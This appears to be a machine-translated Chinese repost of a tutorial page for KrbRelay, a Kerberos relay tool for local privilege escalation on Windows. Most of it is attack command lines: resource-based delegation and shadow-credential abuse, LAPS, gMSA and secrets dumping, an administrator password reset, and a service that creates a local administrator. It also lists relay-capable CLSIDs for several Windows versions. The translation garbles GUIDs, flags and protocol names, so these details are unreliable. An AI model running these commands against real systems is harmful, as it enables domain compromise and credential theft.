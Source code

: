 # krb relay:Kerberos 中继框架

> 原文：<https://kalilinuxtutorials.com/krbrelay/>

[![](img//44f7409e90c6153e9e59c42b06710e7f.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh6NBgr2UP1pJ7UicvMilzm4KAQV-z_iYnZ_71hDbyp8Oy1svNNhDfWj750qIJWg198zW2el60opwo7hEzW3c2HasuGQCCXm2Qeklrwon87m37yFijBCJ2PPfUXVe-q8r_OODezLGrCbSkI2bCVhpxYQzoUOBzvNt8jxqdR0IkR2_foAVc78N1pDJ18/s728/Kerberos-CD-a%20(1).png)

KrbRelay 应该可以在大多数完全补丁化的 Windows 系统上工作。在实验室环境中使用服务器操作系统可能会有困难，因为防火墙会阻止 OXID 解析器。但是，在现实生活中，这很可能不是问题，CLSIDs 也是如此。

### 支持的协议和功能

一些协议比其他的更完整，公关是受欢迎的。

*   LLMNR
*   LDAP/LDAPS
*   超文本传送协议
    *   EWS
*   SMBv2
*   SMB 上的 RPC
    *   SAMR 女士
    *   SCMR 女士
    *   RPRN 女士
    *   MS-RRP
    *   麻省理工学院 LSAT

### 例子

**LPE
。\ krb relay . exe-SPN LDAP/dc01 . htb . local-clsid 90f 18417-f0f 1-484 e-9d3c-59 dceee 5 DBD 8-rbcd S-1-5-21-2982218752-1219710089-3973213059-1606
。\ krb relay . exe-SPN LDAP/dc01 . htb . local-clsid 90f 18417-f0f 1-484 e-9d3c-59 dceee 5 DBD 8-shadow cred
跨会话 LDAP
。\ krb relay . exe-SPN LDAP/dc01 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-shadow cred
。\ krb relay . exe-SPN LDAP/dc01 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-shadow cred win 2016 $
。\ krb relay . exe-SPN LDAP/dc01 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-rbcd S-1-5-21-2982218752-1219710089-3973213059-1606 win 2016 $
。\ krb relay . exe-SPN LDAP/dc01 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-add-group member SRV _ admins domain _ user
。\ krb relay . exe-SPN LDAP/dc01 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-laps
。\ krb relay . exe-SPN LDAP/dc02 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-SSL-gmsa
。\ krb relay . exe-SPN LDAP/dc02 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-SSL-reset-密码管理员 Password123！
跨会话 HTTP
。\ krb relay . exe-SPN http/exchange . htb . local-endpoint EWS/exchange . asmx-SSL-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-EWS-search beta，test
。\ krb relay . exe-SPN http/exchange . htb . local-endpoint EWS/exchange . asmx-SSL-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1 cb6 c 6877182-EWS-delegate domain _ user @ htb . local
。\ krb relay . exe-SPN http/win 2016 . htb . local-endpoint iisstart.htm-代理-会话 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182
跨会话 SMB
。\ krb relay . exe-SPN CIFS/win 2016 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-console
。\ krb relay . exe-SPN CIFS/win 2016 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1 CB 6 c 6877182-add-privileges(([系统。security . principal . windows identity]::get current())、User.Value)
。\ krb relay . exe-SPN CIFS/win 2016 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-secrets
。\ krb relay . exe-SPN CIFS/win 2016 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 C 6877182-service-add addUser " C:\ windows \ system32 \ cmd . exe/C " " " " C:\ windows \ system32 \ net 用户多维数据集密码 123！/add&C:\ windows \ system32 \ net local group administrator s cube/add " " " "
LLMNR
。\ krb relay . exe-llmnr-SPN ' CIFS/win 2019 . htb . local '-secrets**

`**CheckPort.exe**`是一个 C#工具，可用于发现 OXID 解析器的可用端口。

**C:\ Users \ domain _ user \ Desktop \ KrbRelay \ check port \ bin \ Release \ check port . exe
[*]寻找可用端口..【*】端口:1024 可用**

## CLSIDs

我们需要在一个允许通过网络认证的进程中解组我们的 OBJREF，这可以通过查看`**Impersonation Level**`来验证

*   RPC_C_IMP_LEVEL_DEFAULT #将不起作用
*   RPC_C_IMP_LEVEL_ANONYMOUS #将不起作用
*   RPC_C_IMP_LEVEL_IDENTIFY #适用于 LDAP
*   SMB 需要 RPC_C_IMP_LEVEL_IMPERSONATE #
*   RPC_C_IMP_LEVEL_DELEGATE

当中继到 LDAP 或任何其他启用了签名但没有强制签名的服务时，我们还需要验证流程的`**Authentication Level**`是否设置为 **`RPC_C_AUTHN_LEVEL_CONNECT`。**

在通过网络进行身份验证时，在`**NT Authority\Network service**`下运行的进程将使用系统帐户。

发现小岛屿发展中国家的工具:https://github.com/tyranid/oleviewdotnet

**导入-模块。\ oleviewdotnet . PS D1
Get-com database-set current
$ comdb = Get-current com database
$ clsid =(Get-com class)。clsid
Get-ComProcess-DbgHelpPath ' C:\ Program Files(x86)\ Windows Kits \ 10 \ Debuggers \ x64 \ dbghelp . dll ' | select ProcessId，ExecutablePath，Name，AppId，User，AuthnLevel，ImpLevel**

## Windows 10 1903

**系统中继
0 BAE 55 fc-479 f-45 C2-972 e-e 951 be 72 c0 C1 # RPC _ C _ IMP _ LEVEL _ IDENTIFY
90f 18417-f0f 1-484 e-9d3c-59 dceee 5 DBD 8 # RPC _ C _ IMP _ LEVEL _ IMPERSONATE
跨会话中继
0289 a7c 5-91bf-4547-81ae-FEC 91 a 89 dec 5 # RPR**

## 服务器 2019

**系统中继
90f 18417-f0f 1-484 e-9d3c-59 dceee 5 DBD 8 # RPC _ C _ IMP _ LEVEL _ IMPERSONATE
跨会话中继
354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 C 6877182 # RPC _ C _ IMP _ LEVEL _ IMPERSONATE
38e 441 FB-3d 16-422 f-8750-B2 dacec 5 cefc #**

## 服务器 2016

**系统中继
90f 18417-f0f 1-484 e-9d3c-59 dceee 5 DBD 8 # RPC _ C _ IMP _ LEVEL _ IMPERSONATE
跨会话中继
0289 a7c 5-91bf-4547-81ae-FEC 91 a 89 de C5 # RPC _ C _ IMP _ LEVEL _ IMPERSONATE
1f 87137d-0e7c-44 D5-8 c73-4 effb 68962 f 2**

## 错误代码

第一次不成功？再试一次，然后检查这些错误代码，如果你要打开一个问题，请粘贴完整的输出。

#### 防火墙阻止 OXID 解析器

**系统。runtime . interop services . com exception(0x 800706 ba):RPC 服务器不可用。(来自 HRESULT 的异常:0x800706BA)**

## 错误的 CLSID

**系统。runtime . interop services . com Exception(0x 80080004):对象的错误路径(来自 HRESULT 的异常:0x80080004 (CO_E_BAD_PATH))**

[**Download**](https://github.com/cube0x0/KrbRelay)